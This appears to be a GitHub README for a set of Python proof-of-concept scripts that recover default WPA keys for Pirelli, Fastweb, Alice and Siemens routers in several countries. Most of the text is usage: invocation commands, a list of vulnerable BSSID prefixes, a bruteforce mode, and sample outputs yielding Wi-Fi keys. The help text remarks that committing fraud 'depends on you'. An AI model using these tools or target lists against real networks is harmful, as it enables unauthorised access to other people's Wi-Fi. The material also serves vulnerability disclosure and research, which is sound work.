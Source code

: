 Vulnerabilities on WPA generation algorithm for Pirelli routers 
==

+ A bunch of scripts to defeat Pirelli routers over the world. There are scripts from Austria, Germany, Italy, Spain, Argentina....
Also this repository is offering my proof-of-concept for a vulnerability found on Pirelli routers deployed in Argentina.


References
----

* Every script has its references in it. Please look at them for more info.


Contact
----

Coder  : Eduardo Novella    Twitter : [@enovella_](https://twitter.com/enovella_)
Website: (http://ednolo.alumnos.upv.es/)


Licence
----
GPLv3
http://gplv3.fsf.org/

More info
----

+ http://ednolo.alumnos.upv.es/?p=1883

Usage pirelli
----

	$ python pirelli.py -v
	pirelli.py 1.4 [2015-05-06] ----> http://www.ednolo.alumnos.upv.es

	$ python pirelli.py 
	usage: pirelli.py [-h] [-b [BSSID]] [-v] [-l | -a]

	>>> PoC WPA keygen for WiFi Networks deployed by Arnet in Argentina and MEO in
	Portugal. So far only WiFi networks with essids like WiFi-Arnet-XXXX or
	ADSLPT-ABXXXXX and manufactured by Pirelli are likely vulnerable. See
	http://ednolo.alumnos.upv.es/ for more details. Twitter: @enovella_ and email:
	ednolo[at]inf.upv.es. This software is used just as proof-of-concept, commit
	fraud depends on you!

	optional arguments:
	  -h, --help            show this help message and exit
	  -v, --version         show program's version number and exit
	  -l, --list            List all vulnerable targets
	  -a, --allkeys         Bruteforce mode

	required:
	  -b [BSSID], --bssid [BSSID]
	                        Target mac address

	(+) Help: python pirelli.py -b 74:88:8B:AD:C0:DE

	$ python pirelli.py -l
	[+] Possible vulnerable targets so far:
		 bssid: 00:08:27:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:13:C8:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:17:C2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:19:3E:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:1C:A2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:1D:8B:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:22:33:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:8C:54:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 30:39:F2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 74:88:8B:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 84:26:15:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: A4:52:6F:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: A4:5D:A1:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: D0:D4:12:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: D4:D1:84:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: DC:0B:1A:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: F0:84:2F:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX

	$ python pirelli.py -b 74:88:8B:AD:C0:DE
	[+] MAC     : 74:88:8B:AD:C0:DE
	[+] WPA key : 057mjyggor	SSID: WiFi-Arnet-XXXX (Argentina)
	[+] WPA key : 057mjygg  	SSID: ADSLPT-ABXXXXX  (Portugal)

	$ python pirelli.py -b 74:88:8B:AD:C0:DE -a
	[+] MAC     : 74:88:8B:AD:C0:DE

	[+] WPA keys for SSID: WiFi-Arnet-XXXX (Argentina)
	3c1nrhqy5z
	tugh1hcfog
	057mjyggor
	hj0wl2c2r7
	9yw6um3tc5
	ituqajo8iq
	wfti5odq8c

	[+] WPA keys for SSID: ADSLPT-ABXXXXX  (Portugal)
	3c1nrhqy  
	tugh1hcf  
	057mjygg  
	hj0wl2c2  
	9yw6um3t  
	ituqajo8  
	wfti5odq  




Usage fastweb
----

	$ python fastweb.py FASTWEB-1-00193EA1B2C3
	 --------------------------------------------------------------------
	|                       FastWeb Routers Wi-Fi                        |
	|--------------------------------------------------------------------|
	|                 Default WPA Key Algorithm Weakness                 |
	|               Eduardo Novella <@enovella_>                         |
	 --------------------------------------------------------------------
	fastweb.py 0.1.1    2013/07/10     [http://www.ednolo.alumnos.upv.es]


	[+] SSID   : FASTWEB-1-00193EA1B2C3
	[+] MAC    : 00193EA1B2C3 
	[+] MD5    : a37d4267f1d177f44d352978d95558a9
	[+] Extract: a37d4267 
	[+] Binary : 10100011011111010100001001100111
	[+] WPA key: 6b64756b04


Usage Alice AGPF
----

	$ python aliceAGPF.py 
	 --------------------------------------------------------------------
	|                PIRELLI Alice Gate VoIP 2 Plus Wi-Fi   (ITALY)      |
	|--------------------------------------------------------------------|
	|                 Default WPA Key Algorithm Weakness                 |
	|               Eduardo Novella <@enovella_>                         |
	 --------------------------------------------------------------------
	aliceAGPF.py 0.1.1    2013/07/10    [http://www.ednolo.alumnos.upv.es]


		 usage: python aliceAGPF.py [MAC]  [ESSID]

		 eg. python aliceAGPF.py  00:23:8E:01:02:03  Alice-96345678

	$ python aliceAGPF.py 00:23:8E:01:02:03  Alice-96345678
	 --------------------------------------------------------------------
	|                PIRELLI Alice Gate VoIP 2 Plus Wi-Fi   (ITALY)      |
	|--------------------------------------------------------------------|
	|                 Default WPA Key Algorithm Weakness                 |
	|               Eduardo Novella <@enovella_>                         |
	 --------------------------------------------------------------------
	aliceAGPF.py 0.1.1    2013/07/10    [http://www.ednolo.alumnos.upv.es]


	[+] SSID   : Alice-96345678
	[+] MAC    : 00238E010203 
	[+] SHA256 : 321948e63878d7dff841ee37ddd29ab3dd957589ef993df3286907f790bfc52a
	[+] WPA key: ep0ekcz7wtmj5uaz559tn9pr


Usage Alice Siemens
----

	$ python aliceSiemens.py 
	 --------------------------------------------------------------------
	|       Alicebox 1121 - Siemens  S1621-Z220-A           (GERMANY)    |
	|--------------------------------------------------------------------|
	|                 Default WPA Key Algorithm Weakness                 |
	|               Eduardo Novella <@enovella_>                         |
	 --------------------------------------------------------------------
	aliceSiemens.py 0.1.0    2013/07/10    [http://www.ednolo.alumnos.upv.es]


		 usage: python aliceSiemens.py [MAC] 

		 eg. python aliceSiemens.py  00:25:5E:01:02:03


	$ python aliceSiemens.py  00:25:5E:01:02:03
	 --------------------------------------------------------------------
	|       Alicebox 1121 - Siemens  S1621-Z220-A           (GERMANY)    |
	|--------------------------------------------------------------------|
	|                 Default WPA Key Algorithm Weakness                 |
	|               Eduardo Novella <@enovella_>                         |
	 --------------------------------------------------------------------
	aliceSiemens.py 0.1.0    2013/07/10    [http://www.ednolo.alumnos.upv.es]


	[+] SSID     : Alicebox????
	[+] MAC WLAN : 00255E010203 
	[+] MAC ETH  : 00255E010202
	[+] MD5 snip : 9fe800c9b138
	[+] WPA key  : OWZlODAwYzliMTM4


